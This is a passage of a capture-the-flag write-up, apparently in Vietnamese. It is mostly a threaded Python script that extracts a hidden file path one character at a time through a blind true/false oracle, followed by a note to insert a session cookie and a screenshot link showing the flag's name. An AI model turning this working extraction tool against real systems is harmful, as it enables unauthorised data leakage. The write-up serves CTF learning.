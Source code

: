 ```python
            r = session.get(url, cookies=cookies, headers=headers, timeout=REQUEST_TIMEOUT, allow_redirects=False)
            if "true" in r.text:
                return True
            return False
        except requests.RequestException:
            tries += 1
            time.sleep(0.2)
    return False

def find_char_at_index(session: requests.Session, index: int) -> str | None:
    found_event = threading.Event()
    found_char = None
    with ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
        futures = {executor.submit(probe_char, session, index, ch): ch for ch in CHARSET}

        try:
            for fut in as_completed(futures):
                ch = futures[fut]
                try:
                    ok = fut.result()
                except Exception:
                    ok = False
                if ok:
                    found_char = ch
                    found_event.set()
                    break
        finally:
            pass

    return found_char

def main():
    global file_path
    start = 1
    end = 100

    with requests.Session() as session:
        for i in range(start, end):
            ch = find_char_at_index(session, i)
            if ch is None:
                print(f"[{i}] No char found -> stopping.")
                break
            file_path += ch
            print(f"[{i}] found: {ch} -> {file_path}")
            time.sleep(SLEEP_BETWEEN_INDEX)

    print("Done. Final:", file_path)

if __name__ == "__main__":
    main()
```
Nhớ thay cookie vào chạy chứ không bị lỗi.
Được tên flag : 
![image](https://hackmd.io/_uploads/HybELs82gg.png)

